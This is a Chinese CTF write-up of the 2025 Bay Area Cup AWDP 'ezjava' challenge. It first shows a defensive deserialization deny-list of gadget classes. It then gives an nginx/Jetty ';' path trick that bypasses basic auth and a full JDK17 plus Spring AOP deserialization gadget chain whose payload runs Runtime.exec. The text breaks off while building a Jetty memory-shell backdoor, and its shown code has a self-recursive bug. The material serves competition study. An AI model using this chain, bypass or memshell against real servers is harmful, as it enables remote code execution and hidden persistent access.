# 2025湾区杯之AWDP-web-ezjava详解-先知社区

> **来源**: https://xz.aliyun.com/news/18932  
> **文章ID**: 18932

---

这题实际需要逆向和密码来配合

AdminServlet.class如下

```
package ctf.challenge;

import ctf.challenge.JniCrypto;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.ServletException;

import javax.servlet.annotation.WebServlet;
import java.io.ByteArrayInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.nio.charset.StandardCharsets;
import java.util.Arrays;
import java.util.Base64;
import java.util.stream.Collectors;


public class AdminServlet extends HttpServlet {
    private static final byte[] SECRET_KEY = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa".getBytes(StandardCharsets.UTF_8);

    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        resp.getWriter().println(Arrays.toString(SECRET_KEY));
    }

    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        String body = req.getReader().lines().collect(Collectors.joining(System.lineSeparator()));
        if (body.isEmpty()) {
            resp.setStatus(400);
            resp.getWriter().write("Request body is empty.");
            return;
        }
        try {
            byte[] encryptedData = Base64.getDecoder().decode(body);
            byte[] decryptedData = JniCrypto.decrypt(encryptedData, SECRET_KEY);
            if (decryptedData == null || decryptedData.length == 0) {
                resp.setStatus(500);
                resp.getWriter().write("Decryption failed. Invalid data or key?");
                return;
            }
            ByteArrayInputStream bais = new ByteArrayInputStream(decryptedData);
            ObjectInputStream ois = new ObjectInputStream(bais);
            Object obj = ois.readObject();
            ois.close();
            resp.setStatus(200);
            resp.getWriter().write("Object deserialized: " + obj.toString());
        } catch (Exception e) {
            resp.setStatus(400);
            resp.getWriter().write("Error processing request: " + e.getMessage());
        }
    }
}

```

‍

get请求访问之后我们可以拿到secret\_key

然后post请求会进行base64解密，然后再把结果拿去JniCrypto.decrypt再解密一次。

最后才能打反序列化。

跟进JniCrypto.decrypt  
代码如下：


那么其实就是为了加载libcrypt.so文件


看了一下依赖，高版本jdk17，那么估计就是打最近新爆出的一条链子

### 防御

新建一个object类，加个黑名单即可绕过。

最后的黑名单类

```

package ctf.challenge;

import java.io.*;

public class MyObjectInputStream extends ObjectInputStream {
    public MyObjectInputStream(InputStream in) throws IOException {
        super(in);
    }

    @Override // java.io.ObjectInputStream
    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        String className = desc.getName();
        String[] denyClasses = {
                "java.net.InetAddress",
                "sun.rmi.transport.tcp.TCPTransport",
                "sun.rmi.transport.tcp.TCPEndpoint",
                "sun.rmi.transport.LiveRef",
                "sun.rmi.server.UnicastServerRef",
                "sun.rmi.server.UnicastRemoteObject",
                "org.apache.commons.collections.map.TransformedMap",
                "org.apache.commons.collections.functors.ChainedTransformer",
                "org.apache.commons.collections.functors.InstantiateTransformer",
                "org.apache.commons.collections.map.LazyMap",
                "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
                "com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter",
                "org.apache.commons.collections.functors.ConstantTransformer",
                "org.apache.commons.collections.functors.MapTransformer",
                "org.apache.commons.collections.functors.FactoryTransformer",
                "org.apache.commons.collections.functors.InstantiateFactory",
                "org.apache.commons.collections.keyvalue.TiedMapEntry",
                "javax.management.BadAttributeValueExpException",
                "org.apache.commons.collections.map.DefaultedMap",
                "org.apache.commons.collections.bag.TreeBag",
                "org.apache.commons.collections.comparators.TransformingComparator",
                "org.apache.commons.collections.functors.TransformerClosure",
                "java.util.Hashtable", "java.util.HashMap",
                "java.net.URL",
                "com.sun.rowset.JdbcRowSetImpl",
                "java.security.SignedObject",
                "java.lang.Runtime", 
                "java.lang.ProcessBuilder", 
                "org.springframework.aop.aspectj.AspectJAroundAdvice"};
        for (String denyClass : denyClasses) {
            if (className.startsWith(denyClass)) {
                throw new InvalidClassException("Unauthorized deserialization attempt", className);
            }
        }
        return super.resolveClass(desc);
    }
}

```

‍

### 攻击（赛后复盘）

#### Jetty 解析差异

Jetty 服务器部署在 NGINX 代理后面，通过`;`解析差异进行绕过

```
server {
    listen 80 default_server;
    listen [::]:80 default_server;

    server_name _;

    location / {
        proxy_pass http://127.0.0.1:8080; 
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }

    location /myapp/ {
        auth_basic "Admin Area";
        auth_basic_user_file /etc/nginx/.htpasswd; 

        proxy_pass http://127.0.0.1:8080;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

例如我们如果想访问/myapp/admin

就可以利用/myapp/;admin绕过

#### libcrypto.so文件分析

关键的是他有个解密函数，需要找到对应的加密函数



分析so文件，看到有个解密函数

找逆向手分析一下变种的AES得到加密算法加密payload

具体分析过程得找re手帮忙了。这里暂时跳过。

#### 链子调用

参考文章

```
jdk17调用TemplatesImpl
https://fushuling.com/index.php/2025/08/21/%e9%ab%98%e7%89%88%e6%9c%acjdk%e4%b8%8b%e7%9a%84spring%e5%8e%9f%e7%94%9f%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e9%93%be/
http://101.36.122.13:4000/2025/08/31/%E9%AB%98%E7%89%88%E6%9C%ACJDKSpring%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE/

springboot aop+aspectjweaver
https://gsbp0.github.io/post/springaop/#%E6%B5%81%E7%A8%8B
https://mp.weixin.qq.com/s/oQ1mFohc332v8U1yA7RaMQ
```

‍

这题实际上就是Ape1ron分析的那条SpringBootAOP链加上最近8月份新出的jdk17的链子

因为SpringBootAOP链用的是jdk8，因此这题需要两者结合起来才能实现利用。

回忆一下jdk17链如下



而SpringBootAOP链如下



‍

那么最终的调用链就是把SpringBootAOP链的开头换成EventListenerList去触发，

然后把TemplatesImplNode.makeGadget换成jdk17生成字节码的方式

同时要注意每次进行反射调用类的时候都需要bypassModule

具体的替换过程也已经在注释当中说明

最后完整的代码如下

```

import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtNewConstructor;
import org.aopalliance.aop.Advice;
import org.aopalliance.intercept.MethodInterceptor;
import org.springframework.aop.Advisor;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJExpressionPointcut;
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.framework.DefaultAdvisorChainFactory;
import org.springframework.aop.support.DefaultIntroductionAdvisor;
import org.springframework.aop.target.SingletonTargetSource;
import org.utils.Reflections;
import org.utils.UnSafeTools;
import javax.swing.event.EventListenerList;
import javax.swing.undo.CompoundEdit;
import javax.swing.undo.UndoManager;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.*;
import static org.example.jdk17Tools.UnSafeTools.bypassModule;
import static org.example.jdk17Tools.UnSafeTools.getObject;
public class jdk17AndSpringAop {
    public static void main(String[] args) throws Exception{
        //1、在使用 Javassist 动态修改或生成类时，ClassPool 需要知道从哪里加载原始类。
        ClassPool pool = ClassPool.getDefault();
        ClassLoader appClassLoader = ClassLoader.getSystemClassLoader();
        pool.insertClassPath(new javassist.LoaderClassPath(appClassLoader));

        CtClass ctClass = pool.makeClass("Calc");
        ctClass.addConstructor(CtNewConstructor.make("public Calc() { Runtime.getRuntime().exec("calc"); }", ctClass));
        //生成一个类foo
        CtClass ctClass1 = pool.makeClass("Foo");
        //获取两个类的字节码
        byte[] bytecode = ctClass.toBytecode();
        byte[] bytecode1 = ctClass1.toBytecode();

        Class<?> aClass = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        bypassModule(jdk17AndSpringAop.class, aClass);

        //下面的部分就是相当于jdk17链中的
        //TemplatesImpl templates = new TemplatesImpl();
//        setFieldValue(templates, "_name", "xxx");
//        setFieldValue(templates, "_bytecodes", new byte[][]{code1, code2});
//        setFieldValue(templates,"_transletIndex",0);
        Object templates = Reflections.newInstanceWithoutConstructor(aClass);
        UnSafeTools.setObject(templates, aClass.getDeclaredField("_name"), "whoami");
        UnSafeTools.setInt(templates, aClass.getDeclaredField("_transletIndex"), 0);
        UnSafeTools.setObject(templates, aClass.getDeclaredField("_bytecodes"), new byte[][]{bytecode, bytecode1});


        SingletonAspectInstanceFactory singletonAspectInstanceFactory = new SingletonAspectInstanceFactory(templates);
        //下面的部分就是相当于SpringAOP中的
//        AspectJAroundAdvice aspectJAroundAdvice = Reflections.newInstanceWithoutConstructor(AspectJAroundAdvice.class);
//        Reflections.setFieldValue(aspectJAroundAdvice,"aspectInstanceFactory",singletonAspectInstanceFactory);
//        Reflections.setFieldValue(aspectJAroundAdvice,"declaringClass", TemplatesImpl.class);
//        Reflections.setFieldValue(aspectJAroundAdvice,"methodName", "newTransformer");
//        Reflections.setFieldValue(aspectJAroundAdvice,"parameterTypes", new Class[0]);
        Class<?> bClass = Class.forName("org.springframework.aop.aspectj.AspectJAroundAdvice");
        bypassModule(jdk17AndSpringAop.class, bClass);

        AspectJAroundAdvice aspectJAroundAdvice = Reflections.newInstanceWithoutConstructor(AspectJAroundAdvice.class);
        UnSafeTools.setObject(aspectJAroundAdvice, Reflections.getField(bClass,"aspectInstanceFactory"), singletonAspectInstanceFactory);
        UnSafeTools.setObject(aspectJAroundAdvice, Reflections.getField(bClass,"declaringClass"), Templates.class);
        UnSafeTools.setObject(aspectJAroundAdvice, Reflections.getField(bClass,"methodName"), "getOutputProperties");
        UnSafeTools.setObject(aspectJAroundAdvice, Reflections.getField(bClass,"parameterTypes"), new Class[0]);
        //下面的部分就是相当于SpringAOP中的
//        AspectJExpressionPointcut aspectJExpressionPointcut = new AspectJExpressionPointcut();
//        Reflections.setFieldValue(aspectJAroundAdvice,"pointcut",aspectJExpressionPointcut);
//        Reflections.setFieldValue(aspectJAroundAdvice,"joinPointArgumentIndex",-1);
//        Reflections.setFieldValue(aspectJAroundAdvice,"joinPointStaticPartArgumentIndex",-1);
        Class<?> cClass = Class.forName("org.springframework.aop.aspectj.AspectJExpressionPointcut");
        bypassModule(jdk17AndSpringAop.class, cClass);
        AspectJExpressionPointcut aspectJExpressionPointcut = (AspectJExpressionPointcut)  Reflections.newInstanceWithoutConstructor(cClass);
        UnSafeTools.setObject(aspectJAroundAdvice, Reflections.getField(bClass,"pointcut"), aspectJExpressionPointcut);
        UnSafeTools.setInt(aspectJAroundAdvice, Reflections.getField(bClass,"joinPointArgumentIndex"), -1);
        UnSafeTools.setInt(aspectJAroundAdvice, Reflections.getField(bClass,"joinPointStaticPartArgumentIndex"), -1);


        //下面的部分就是相当于SpringAOP中的
        //InvocationHandler jdkDynamicAopProxy1 = (InvocationHandler) JdkDynamicAopProxyNode.makeGadget(aspectJAroundAdvice);
        Class<?> jdkDynamicAopProxyClass = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        bypassModule(jdk17AndSpringAop.class, jdkDynamicAopProxyClass);
        Constructor<?> proxyConstructor = jdkDynamicAopProxyClass.getDeclaredConstructor(AdvisedSupport.class);
        proxyConstructor.setAccessible(true);
        AdvisedSupport as = new AdvisedSupport();
        as.setTargetSource(new SingletonTargetSource(aspectJAroundAdvice));
        InvocationHandler jdkDynamicAopProxy1 = (InvocationHandler) proxyConstructor.newInstance(as);

        //下面的部分就是相当于SpringAOP中的
        //Object proxy1 = Proxy.makeGadget(jdkDynamicAopProxy1, Advisor.class, MethodInterceptor.class);
        Object proxy1 = Proxy.newProxyInstance(
                jdk17AndSpringAop.class.getClassLoader(),// 当前类的 ClassLoader
                new  Class[]{Advisor.class,MethodInterceptor.class},
                jdkDynamicAopProxy1);


        Advisor advisor = new DefaultIntroductionAdvisor((Advice) proxy1);
        List<Advisor> advisors = new ArrayList<>();
        advisors.add(advisor);


        AdvisedSupport as2 = new AdvisedSupport();
        DefaultAdvisorChainFactory advisorChainFactory = new DefaultAdvisorChainFactory();
        //下面的部分就是相当于SpringAOP中的
//        Reflections.setFieldValue(advisedSupport,"advisors",advisors);
//        Reflections.setFieldValue(advisedSupport,"advisorChainFactory",advisorChainFactory);
        UnSafeTools.setObject(as2,Reflections.getField(as2.getClass(),"advisors"), advisors);
        UnSafeTools.setObject(as2,Reflections.getField(as2.getClass(),"advisorChainFactory"), advisorChainFactory);


        //下面的部分就是相当于SpringAOP中的
        //InvocationHandler jdkDynamicAopProxy2 = (InvocationHandler) JdkDynamicAopProxyNode.makeGadget("ape1ron",advisedSupport);

        as2.setTargetSource(new SingletonTargetSource("ape1ron"));
        InvocationHandler jdkDynamicAopProxy2 = (InvocationHandler) proxyConstructor.newInstance(as2);

        //下面的部分就是相当于SpringAOP中的
        //Object proxy2 = Proxy.makeGadget(jdkDynamicAopProxy2, Map.class);
        Object proxy2 = Proxy.newProxyInstance(
                Proxy.class.getClassLoader(),// 当前类的 ClassLoader
                new  Class[]{Map.class},
                jdkDynamicAopProxy2);

        EventListenerList list2 = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector)getObject(manager, CompoundEdit.class.getDeclaredField("edits"));
        vector.add(proxy2);
        UnSafeTools.setObject(list2, EventListenerList.class.getDeclaredField("listenerList"), new Object[]{InternalError.class, manager});

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(list2);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(baos.toByteArray()));
        unserialize(baos.toByteArray());
    }
    public static void unserialize(byte[] exp) throws Exception {
        ByteArrayInputStream bais = new ByteArrayInputStream(exp);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }
}

```

但实际上调试的时候就出现到问题



如果当第一个代理的ClassLoader不是当前类，而是`Proxy`类的话，就会抛出异常

具体原因是因为

```
Exception in thread "main" java.lang.IllegalArgumentException: org.springframework.aop.Advisor referenced from a method is not visible from class loader
```

也就是说org.springframework.aop.Advisor不可见。

在 Java 中，类加载器采用双亲委派模型，不同的类加载器可能加载相同名称但实际不同的类。

当创建 JDK 动态代理时，用于加载代理类的类加载器必须能够访问到所有被代理的接口。

而如果我们使用的是当前类的类加载器，这个类加载器能够访问到Advisor和MethodInterceptor接口（因为当前类本身就依赖这些接口），所以代理类可以正常创建。

#### jetty内存马

可以先去分析一下jetty低版本的内存马，由于包名改变了

9.4.44.v20210927版本的jetty内存马的包名是javax/servlet/Filter

但是在题目中的jetty是11.0.26

因此沿用原来的payload就会发生报错java.lang.ClassNotFoundException



那么我们来手动挖掘一下。

先在web.xml新建测试路由

```
<!DOCTYPE web-app PUBLIC
 "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
 "http://java.sun.com/dtd/web-app_2_3.dtd" >

<web-app>
  <display-name>Archetype Created Web Application</display-name>

  <servlet>
    <servlet-name>Hello</servlet-name>

    <servlet-class>com.example.Hello</servlet-class>

  </servlet>

  <servlet-mapping>
    <servlet-name>Hello</servlet-name>

    <url-pattern>/hello</url-pattern>

  </servlet-mapping>

</web-app>

```

‍

com.example.Hello类如下

```
import jakarta.servlet.http.HttpServlet;
import jakarta.servlet.http.HttpServletRequest;
import jakarta.servlet.http.HttpServletResponse;
import java.io.IOException;
public class Hello extends HttpServlet{
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse res) throws IOException {
        res.setContentType("text/html");
        res.setStatus(HttpServletResponse.SC_OK);
        res.getWriter().println("<h1>Hello World</h1>");
    }
}

```

打上断点，访问<http://127.0.0.1:8080/hello,进入调试>



可以看到有req和res两个变量，req就是请求的报文，res就是结果报文

我们需要做的是，在req请求报文中定义一个新的请求头，里面传入命令参数，然后执行，然后通过res定义新的请求返回结果

那么为了进一步分析调用栈，以及获取context的上下文推荐一个工具。

项目地址

<https://github.com/c0ny1/java-object-searcher>

获取context通用的手段一般都是从当前请求线程中获取，在以前的话需要自己手工进行分析，c0ny1师傅开发了一款很方便的工具，能够在内存中快速搜索出想要的对象

我们跑一下深度搜索

```

sun.misc.Unsafe unsafe;
java.lang.reflect.Field field = sun.misc.Unsafe.class.getDeclaredField("theUnsafe");
field.setAccessible(true);
unsafe = (sun.misc.Unsafe)field.get((Object)null);
Module baseModule = Object.class.getModule();
Class currentClass = me.gv7.tools.josearcher.searcher.SearchRequstByBFS.class;
long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
unsafe.putObject(currentClass, offset, baseModule);


java.util.List<me.gv7.tools.josearcher.entity.Keyword> keys = new java.util.ArrayList<me.gv7.tools.josearcher.entity.Keyword>();
keys.add(new me.gv7.tools.josearcher.entity.Keyword.Builder().setField_type("Request").build());
java.util.List<me.gv7.tools.josearcher.entity.Blacklist> blacklists = new java.util.ArrayList<me.gv7.tools.josearcher.entity.Blacklist>();
blacklists.add(new me.gv7.tools.josearcher.entity.Blacklist.Builder().setField_type("java.io.File").build());
me.gv7.tools.josearcher.searcher.SearchRequstByBFS searcher = new me.gv7.tools.josearcher.searcher.SearchRequstByBFS(Thread.getThreads(),keys);
searcher.setBlacklists(blacklists);
searcher.setIs_debug(true);
searcher.setMax_search_depth(20);
searcher.setReport_save_path("E:\ezjava\untitled\");
searcher.searchObject();
```

因为我目前用的是jdk17，所以要加上unsafe来达到绕过强封装



我们查看一下得到的结果，检索一下符合org.eclipse.jetty.server.Request这个类的调用栈

因为这个类正是我们去检索Request这个关键字所要找到的。

发现有两条


先看第一条


可以看到里面的\_request正是我们访问hello的请求体。

然后第二条是



blocker为null值，很明显第一条更加符合。

那么根据第一条调用栈，起手式应该就是

```
Thread[] threads = Thread.getThreads();
Thread targetThread = threads[9];
ThreadLocal.ThreadLocalMap threadLocals = targetThread.threadLocals;
ThreadLocal.ThreadLocalMap.Entry[] table = threadLocals.table;
ThreadLocal.ThreadLocalMap.Entry entry = table[1];
Object value = entry.value;

```



那么目前我们的value就是org.eclipse.jetty.server.HttpConnection

如果要继续往下获取就需要用到反射调用了

完整的代码如下

```

package com.example;

import jakarta.servlet.http.HttpServlet;
import jakarta.servlet.http.HttpServletRequest;
import jakarta.servlet.http.HttpServletResponse;
import mem.jettymem;
import sun.misc.Unsafe;

import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Base64;

public class Hello extends HttpServlet{


    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse res) throws IOException {
        res.setContentType("text/html");
        res.setStatus(HttpServletResponse.SC_OK);
        res.getWriter().println("<h1>Hello World</h1>");
        try {
            memshell();
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
    public static void bypassmoudle() throws Exception{
        bypassmoudle();
        sun.misc.Unsafe unsafe;
        java.lang.reflect.Field field = sun.misc.Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        unsafe = (sun.misc.Unsafe)field.get((Object)null);
        Module baseModule = Object.class.getModule();
        Class currentClass = com.example.Hello.class;
        long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
        unsafe.putObject(currentClass, offset, baseModule);
    }

    public static void memshell() throws Exception {
        Object threadLocals = getFieldValue(Thread.currentThread(), "threadLocals");
